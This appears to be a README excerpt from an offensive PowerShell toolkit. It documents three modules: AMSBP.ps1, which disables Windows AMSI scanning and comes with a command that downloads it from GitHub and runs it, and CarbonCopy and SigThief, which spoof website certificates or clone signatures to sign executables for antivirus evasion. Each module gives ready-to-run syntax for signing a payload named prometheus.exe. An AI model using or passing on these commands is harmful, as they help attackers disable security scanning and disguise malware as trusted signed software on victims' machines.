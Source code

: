 ## Module Name
   <b><i>AMSBP.ps1</i></b>

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|AMSBP|Disable AMSI within current process|User Land|\*\*\*|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/AMSBP.ps1" -OutFile "AMSBP.ps1"
```

```powershell
Import-Module -Name ".\AMSBP.ps1" -Force
AMSBP
```


## Module Name
   CarbonCopy

   **Description:**
   <b><i>A tool which creates a spoofed certificate of any online website<br />
   and signs an Executable for AV Evasion. Works for both Windows and Linux</i></b>

   **prerequisites:**
```shell 
apt-get install osslsigncode
pip3 install pyopenssl
```
   **Syntax:**
```python   
python3 CarbonCopy.py www.microsoft.com 443 prometheus.exe signed-prometheus.exe
```

<br />

## Module Name
   sigthief

   **Description:**
   <b><i>A tool to sign Executable for AV Evasion.<br />
   It clones signcheck.exe to sign the new binary</i></b>

   **prerequesites:**
   python3
   osslsigncode

   **Syntax:**
```python   
python Sigthief.py -i "sigcheck.exe" -t "prometheus.exe" -o "signed-prometheus.exe"
```